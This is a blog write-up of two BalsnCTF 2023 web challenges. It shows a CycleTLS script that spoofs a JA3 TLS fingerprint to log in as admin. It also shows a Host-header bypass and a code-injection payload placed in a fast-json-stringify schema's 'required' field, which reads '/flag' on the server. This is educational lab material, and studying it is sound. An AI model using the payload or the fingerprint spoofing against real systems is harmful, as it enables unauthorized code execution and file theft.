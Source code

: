 ```yaml
---
title: "balsnCTF23"
date: 2023-10-12T19:46:31+02:00
tags: ["web","ja3","serialization"]
categories: ["ctf"]
author: "Ayman Boulaich"
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "I have had the pleasure of participating on balsnCTF. This CTF was so funny and I have been able to learn a lot. In this writeup I am gonna write about 0FA and SaaS."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## INDEX

- [0FA](https://pwndside.github.io/posts/balsnctf23/#0FA)
- [SaaS](https://pwndside.github.io/posts/balsnctf23/#SaaS)

## 0FA

![Untitled](/CTF/balsnctf23-1.png)

This challenge was so fun as easy. The main part of this level is the JA3 spoof.

```php
function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

Taking a look to the source code we can see that after we submit a username `fingerprint_check()` close our connection if we don’t have a specific JA3

JA3 is **a method to fingerprint a SSL/TLS client connection based on fields in the Client Hello message from the SSL/TLS handshake**.

So basically, we need to impersonate a JA3 fingerprint.

There is no way to do it via headers on a burp request but hopefully a JavaScript library named CycleTLS helps to send a request with a custom JA3.

I built the next script in typescript in order to log as admin and get the flag.

```tsx
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
    // Initiate CycleTLS
    const cycleTLS = await initCycleTLS()

    // Send request
    const response = await cycleTLS(
        'https://localhost:8787/flag.php',
        {
            body: 'username=admin',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
            userAgent: 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0'
        },
        'post'
    )

    console.log(response)

    // Cleanly exit CycleTLS
    cycleTLS.exit()
})()
```

> BALSN{Ez3z_Ja3__W4rmUp}
> 

## SaaS

![Untitled](/CTF/balsnctf23-2.png)

This challenge focuses on serialization which is present as a clue on the challenge name **Serialization as a Service.**

```jsx
const validatorFactory = require('@fastify/fast-json-stringify-compiler').SerializerSelector()()
const fastify = require('fastify')({
  logger: true,
})
const {v4: uuid} = require('uuid')
const FLAG = 'the old one'
const customValidators = Object.create(null, {}) // no more p.p.
const defaultSchema = {
  type: 'object',
  properties: {
    pong: {
      type: 'string',
    },
  },
}
fastify.get(
  '/',
  {
    schema: {
      response: {
        200: defaultSchema,
      },
    },
  },
  async () => {
    return {pong: 'hi'}
  }
)
fastify.get('/whowilldothis/:uid', async (req, resp) => {
  const {uid} = req.params
  const validator = customValidators[uid]
  if (validator) {
    return validator({[FLAG]: 'congratulations'})
  } else {
    return {msg: 'not found'}
  }
})

fastify.post('/register', {}, async (req, resp) => {
  // can only access from internal.
  const nid = uuid()
  const schema = Object.assign({}, defaultSchema, req.body)
  customValidators[nid] = validatorFactory({schema})
  return {route: `/whowilldothis/${nid}`}
})
fastify.listen({port: 3000, host: '0.0.0.0'}, function (err, address) {
  if (err) {
    fastify.log.error(err)
    process.exit(1)
  }
  // Server is now listening on ${address}
})
```

```docker
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

The first thing we need to do is to bypass the nginx check in order to be able to see the site hosted on port 3000.

**server_name** has to be set to `*.saas` and **http.host** to `easy++++++` we can do that by changing it via BurpSuite.

```html
GET http://any.saas/ HTTP/1.1
Host: easy++++++
```

The code uses the **fastify** framework and the **fast-json-stringify** library to serialize schemas dynamically.

The next security [notice](https://fastify.dev/docs/latest/Reference/Validation-and-Serialization/#--security-notice) of the fastify doc gives us an approach of where is the main problem of this challenge.

Basically if a dev doesn’t treat the schema definition as a code and let the users create schemas with untrusted output may lead to undefined behavior.

If we check the source we have a endpoint called register which creates a schema merging the default one and the request body and creates a custom validator with that schema.

`/whowilldothis/:uid` endpoint with the corresponding uid, we can see how works his validator.

Googling I found a HackerOne which talks about a RCE vuln on the **fast-json-stringify** library. This reports helps me to find a RCE on this piece of code:

```jsx
// handle extraneous required fields
  for (const requiredProperty of required) {
    if (requiredWithDefault.indexOf(requiredProperty) !== -1) continue
    code += `if (obj['${requiredProperty}'] === undefined) throw new Error('"${requiredProperty}" is required!')\n`
  }
```

If we have a validator with a required property and if we are validating a schema without that property an error would be trigged.

As the `/whowilldothis/:uid` doesn’t validate a schema with the required property we can put this property via register endpoint and put a payload on it.

```html
POST http://.saas/register HTTP/1.1
Host: easy++++++
Content-Type: application/json
Content-Length: 101

{
  "required": ["'+global.process.mainModule.constructor._load('fs').readFileSync('/flag')+'"]
}

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Thu, 12 Oct 2023 17:01:15 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 63
Connection: close

{"route":"/whowilldothis/1b00e70e-cea0-4003-9179-752e3179414e"}
```

![Untitled](/CTF/balsnctf23-3.png)

![Untitled](/CTF/balsnctf23-4.png)

> BALSN{N0t_R3ally_aN_u3s_Ca53}
>

**Thank you for reading, and happy hacking! 😄**